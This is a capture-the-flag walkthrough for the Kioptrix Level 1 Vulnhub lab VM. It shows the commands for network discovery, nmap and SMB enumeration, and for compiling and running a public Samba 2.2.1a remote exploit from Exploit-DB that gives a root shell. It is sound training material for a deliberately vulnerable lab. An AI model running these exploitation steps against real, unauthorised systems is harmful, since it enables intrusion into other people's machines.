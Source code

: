 ```yaml
---
title: "Kioptrix Level 1 Walkthrough"
tags:
  - Vulnhub
  - Kioptrix
  - Samba
---
```

Kioptrix level 1 is a basic Vulnhub VM for beginners. You can download it from [here](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/)

### Finding IP address
```sh
netdiscover -r 192.168.1.0/24
```
![netdiscover](https://i.imgur.com/fJU0pJH.png)

So the IP address is 192.168.1.104

### Port Scanning
```sh
nmap -sC -sV -oA nmap/quick 192.168.1.104
```
![nmap](https://i.imgur.com/QWh7QIN.png)

As you can see in the above image, ports 22, 80, 111, 139, 443 are open.

### Exploitation
Since port 80 is open, I opened the website(192.168.1.104:80) in my browser. I did not find anything of our interest.

Next interesting thing for me is, port 139(a samba service). Our nmap scan did not find the version of samba service. Lets enumerate more using samba scripts
```sh
nmap -p 139 --script=smb-vuln* 192.168.1.104
```
nmap with smb-vuln* scripts also did not find the version of samba service. Give up? No. Try Harder.

Let's try enum4linux
```sh
enum4linux -a 192.168.1.104
```
Nothing from enum4linux as well. Give up? No. Try Harder.

Let's see if Metasploit can find the version of samba service.
![msf](https://i.imgur.com/wqYAISy.png)
Great. Samba's version is 2.2.1a

Let's see if we can find any vulnerabilities for samba 2.2.1a in the exploit database.
```sh
searchsploit samba 2.2
```
![searchsploit](https://i.imgur.com/KhOR9ue.png)
There are so many exploits available and we are interested in the last exploit in the above image.

Let's copy the exploit and execute
```sh
cp /usr/share/exploitdb/exploits/multiple/remote/10.c samba.c
gcc samba.c -o sambal
chmod +x sambal
./sambal -b 0 192.168.1.104
```
![exploit](https://i.imgur.com/ZA28eum.png)
We got the root. So we don't need post exploitation for this VM.

Note: Normally we get unprivileged shell. By using privilege escalation techniques we will get the root.

